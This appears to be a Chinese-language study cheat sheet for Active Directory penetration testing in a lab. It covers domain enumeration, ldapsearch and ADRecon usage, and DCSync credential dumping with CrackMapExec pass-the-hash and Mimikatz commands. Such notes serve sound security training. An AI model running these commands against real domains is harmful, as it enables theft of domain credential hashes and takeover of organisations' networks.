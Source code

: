 - 加入 AD
    - DNS 指向 AD
    - 將系統加入 AD
    - 使用網域帳號登入

## information 
### 查詢 Local User
- `net user`
- `net user <username>`

### 查詢 Domain User
- net user /domain
- net user `username` /domain
    
### 預設高權限群組
- net groups /domain
- net groups "Domain Admins" /domain
- net groups "Schema Admins" /domain
- net groups "Enterprise Admins" /domain

#### LDAP 簡介：
- DN:Distinguish Name
- CN: Common Name
- OU:Organization Unit Name
- DC: Domain Componet

```
kali
ldapsearch -x -h 10.10.51.168 -D ‘user@domain' -w ‘password' -b 'dc=code2021,dc=tw' '(ObjectClass=user)'
```

### Windows ADRecon.ps1

```
- https://github.com/adrecon/ADRecon
usage：powershell.exe –nop –ep bypass .\adrecon.ps1 -DomainController 10.10.40.168 -Credential LAB\peko

Install-windowsfeature RSAT
```

### DcSync

- 本地址用者資料庫 C:\windows\system32\config\SAM
- 網域使用者資料庫 C:\Windows\NTDS\NTDS.dit
    - DcSync 就是把 NTDS.dit 的資料導出來
- cme：`cme smb <dc_ip> -H <hash> -d <domain> -u <username> --ntds`
-  Mimikatz
    -  切到 Domain Admin 帳戶 (會彈出新的 cmd 視窗)
    1. `privilege::debug`
    2. `sekurlsa::pth /user:<username> /domain:<domain> /ntlm:<ntlm>`
    3. 再啟用後：`lsadump::dcsync /all`

---